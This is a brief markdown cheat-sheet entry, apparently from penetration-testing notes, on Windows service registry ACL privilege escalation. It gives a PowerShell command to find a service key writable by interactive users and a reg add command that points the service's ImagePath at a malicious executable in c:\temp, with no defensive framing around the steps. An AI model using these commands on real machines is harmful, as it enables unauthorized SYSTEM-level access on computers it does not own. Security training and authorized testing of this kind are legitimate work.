 # regsvc ACL privesc
Enumeration using PowerShell:
```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsrv | fl
```
Check the output for 'NT AUTHORITY\INTERACTIVE' has 'Allow FullControl'<br>
Create a malicious service<br>
Install the malicious executable:
```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsrv /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```
